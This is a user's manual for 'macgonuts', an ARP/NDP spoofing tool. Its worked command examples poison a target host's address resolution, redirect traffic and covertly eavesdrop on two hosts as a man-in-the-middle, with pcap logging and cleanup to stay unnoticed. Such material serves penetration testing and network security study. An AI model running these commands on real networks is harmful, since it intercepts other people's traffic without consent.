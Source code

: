 # Macgonuts user's manual

**Abstract**: This document provides information about how to use all features currently implemented on
``macgonuts`` tool. Any unclear or even untreated topic you can report
[here](https://github.com/rafael-santiago/macgonuts/issues) please and, thank you!

## Topics

- [What does ``macgonuts`` is for?](#what-does-macgonuts-is-for)
- [Basic facts about the command line tool](#basic-facts-about-the-command-line-tool)
- [Commands](#commands)
    - [The spoof command](#the-spoof-command)
    - [The eavesdrop command)(#the-eavesdrop-command)

## What does ``macgonuts`` is for?

Besides a lousy pun, ``macgonuts`` is also a tool to exploit address resolution on networks.
Anyway, the main motivation to implement ``macgonuts`` was the possibility of using the lousy pun, I need to admit...
You can also understand ``macgonuts`` as a swiss army knife to exploit addressing resolution on computer networks, but
my main goal was to have something to use the pun.

[``Back``](#topics)

## Basic facts about the command line tool

1. This is about a ``unix-like`` tool.
2. It does not set on fireworks when a thing works.
3. It is based on commands.
4. When you want a quick help about a command you run: ``macgonuts help <command>``.
5. If you do not want to read this manual by preferring poke by yourself the tool: ``macgonuts help``.
6. If you still do not understand try to go to 1.

[``Back``](#topics)

## Commands

This section describes in detail all implemented commands in ``macgonuts``. Keep on reading to master up
the tool and making a youtube video about it.

### The spoof command

Maybe the ``spoof`` command is the command for what you arrive here. With ``spoof`` command you can deceive
a host by making it think that you are the droid that it was looking for...

If you run:

```
ford@RestaurantAtTheEndOfTheUniverse:~# macgonuts help spoof
use: macgonuts spoof --lo-iface=<label>
                     --target-addr=<ip4|ip6> --addr2spoof=<ip4|ip6>
                    [--fake-pkts-amount=<n> --timeout=<ms> --redirect --undo-spoof]
```

Okay, it expects at least three options:

- ``--lo-iface``
- ``--target-addr``
- ``--addr2spoff``

Nice, it does support ``ARP`` and ``NDP`` because options related to addressing supports ``ipv4`` or ``ipv6``.

The option ``--lo-iface`` stands for "local interface" you need to indicate the interface that your
machine uses to access the network that you are wanting to.. err... mess up... Anyway,
the option ``--target-addr`` is where you indicate the address of the host that you want to deceive
and ``--addr2spoof`` option is where you input the address that you want to override on target host.

Now, story time!!!!!!

Once upon time, three persons: Alice, Bob and Eve:

- Alice is on host ``192.30.70.8``.
- Bob is on host ``192.30.70.10``.
- Eve is on host ``192.30.70.9``.

Eve wants to use ``macgonuts`` to make Bob think that she is Alice on the network. So Eve run:

```
eve@RestaurantAtTheEndOfTheUniverse:~# macgonuts spoof --lo-iface=eth1 \
> --target-addr=192.30.70.10 --addr2spoof=192.30.70.8
```

After emitting this command on her terminal, Eve starts to watch the following messages:

```
info: ARP reply -> `192.30.70.10`, MAC `08:00:27:e5:9b:4a` will override `08:00:27:97:64:91` at `192.30.70.10`.
info: ARP reply -> `192.30.70.10`, MAC `08:00:27:e5:9b:4a` will override `08:00:27:97:64:91` at `192.30.70.10`.
info: ARP reply -> `192.30.70.10`, MAC `08:00:27:e5:9b:4a` will override `08:00:27:97:64:91` at `192.30.70.10`.
info: ARP reply -> `192.30.70.10`, MAC `08:00:27:e5:9b:4a` will override `08:00:27:97:64:91` at `192.30.70.10`.
info: ARP reply -> `192.30.70.10`, MAC `08:00:27:e5:9b:4a` will override `08:00:27:97:64:91` at `192.30.70.10`.
info: ARP reply -> `192.30.70.10`, MAC `08:00:27:e5:9b:4a` will override `08:00:27:97:64:91` at `192.30.70.10`.
(...)
```

Eve's screen will be flooded with this info, now you imagine the network... Eve the barbarian I would say...
In fact, the spoof is done, at this moment ``192.30.70.10`` (Bob) thinks that ``192.30.70.8`` (Alice) is
``192.30.70.9`` (Eve).

If Eve wants to avoid flooding the network with so many packets she can pass ``--timeout=<mss>`` option:

```
eve@RestaurantAtTheEndOfTheUniverse:~# macgonuts spoof --lo-iface=eth1 \
> --target-addr=192.30.70.10 --addr2spoof=192.30.70.8 --timeout=500
```

The same effect of the prior command but now at each half second ``macgonuts`` will inject in the network one
fake ``ARP`` resolution.

Nice, but Eve also wants to avoid interrupting any communication between Alice <-> Bob, in this way she can sit on
and eavesdropping (what a nice pun, huh?!) their channel. It can be done by passing ``--redirect`` flag:

```
eve@RestaurantAtTheEndOfTheUniverse:~# macgonuts spoof --lo-iface=eth1 \
> --target-addr=192.30.70.10 --addr2spoof=192.30.70.8 --timeout=500 --redirect
```

Same effect, still spoofed but now redirecting packets and do not abusing network throughput.

Eve hits ``ctrl+c`` to exit the application (by the way, this is how you exit spoof command, sorry!). However,
Bob stills think that Eve's computer is Alice's computer and at this moment he will notice that "Alice"
stopped respond to his requests. If Eve wants to become incognito, she can pass the option ``--undo-spoof``:

```
eve@RestaurantAtTheEndOfTheUniverse:~# macgonuts spoof --lo-iface=eth1 \
> --target-addr=192.30.70.10 --addr2spoof=192.30.70.8 --timeout=500 --redirect --undo-spoof
```

Once ``macgonuts`` got an exit request it will stop flooding network with fake packets and
restore the MAC resolution on target host, in other words, it do some housekeeping before going home
(...well, I think you understood anyway).

If flooding network is not an option Eve also could send only a specific amount of fake resolution
packets by using ``--fake-pkts-amount=<n>``:

```
eve@RestaurantAtTheEndOfTheUniverse:~# macgonuts spoof --lo-iface=eth1 \
> --target-addr=192.30.70.10 --addr2spoof=192.30.70.8 --timeout=3000 --fake-pkts-amount=50
> --redirect --undo-spoof
```

**Tip**: When you do redirect it has already some implicit timeout, in this way, maybe you do not have to pass an
explicit timeout, depending on how much of timeout you are intending between fake resolution packets.

Congrats! Now you are a macgonuts spoofing master!

[``Back``](#topics)

### The eavesdrop commnad

If you are wanting to do some active sniffing beetween two points this is the ``macgonuts`` command that you are
looking for...

With ``eavesdrop`` command you are able to simply watch the network traffic or log it to inspect later. You can
also inform to ``macgonuts`` what content is relevant to be displayed/logged.

When you ask for ``eavesdrop``'s help you will be presented to something like the following:

```
joshua@FarEastForTheTrees:~# macgonuts help eavesdrop
use: macgonuts eavesdrop --lo-iface=<label>
                         --alice-addr=<ip4|ip6> --bob-addr=<ip4|ip6>
                        [--pcap-file=<path> --file=<path> --undo-spoof]
```

So... Story time!!!!!!

Once upon time Alice and Bob they were communicating each other by using the local network but they were
in different network segments! Connected through switches! In order to avoid Eve of doing passive sniffing, bad girl!

Eve, after some evil laughs (``- MuHahuahuahuAH...``, ``- Muhahauahuahau...``) however, she was using ``macgonuts``
that has btw her favorite command that is able to deceive bridged networks when sniffing (Well, I love puns,
I have to admit).

All Eve needed to do was:

```
eve@FarEastForTheTrees:~# macgonuts eavesdrop --lo-iface=eth1 \
> --alice-addr=192.30.70.11 --bob-addr=192.30.70.12
```

After that all the two talked each other begun be displayed at Eve's screen. Bang!

Nevertheless, in thruth, Eve was not the villain here, she was a sysadmin seeking to catch network abuses done by
Alice and Bob. So Eve decided to log all them traffic to use it later as proofs:

```
eve-the-sysadmin-with-lasers@FarEastForTheTrees:~# macgonuts eavesdrop --lo-iface=eth1 \
> --alice-addr=192.30.70.11 --bob-addr=192.30.70.12 --file=log-them-tender-log-them-switch.log
```

Now everything that would be dumped to screen was dumped to the indicated file path by her.

Anyway, Eve want's to inspect more deeply those content with another tools later. So Eve decided
to log all connection by using ``pcap`` format. Well understood through so many traffic analyzing tools:

```
eve-the-sysadmin-with-lasers@Tender:~# macgonuts eavesdrop --lo-iface=eth1 \
> --alice-addr=192.30.70.11 --bob-addr=192.30.70.12 --pcap-file=log-them-tender-log-them-switch.pcap

```

Eve is a good professional he want to gather proofs of the abuse, give it to her superior and let
she decided what to do, so by now she does not want to warn Alice neither Bob. In this way, she
uses ``--undo-spoof`` to let them communicating each other even after her logging session has finished:

```
eve-the-sysadmin-with-lasers-and-very-silent@Tender:~# macgonuts eavesdrop --lo-iface=eth1 \
> --alice-addr=192.30.70.11 --bob-addr=192.30.70.12 --pcap-file=log-them-tender-log-them-switch.pcap \
> --undo-spoof

```
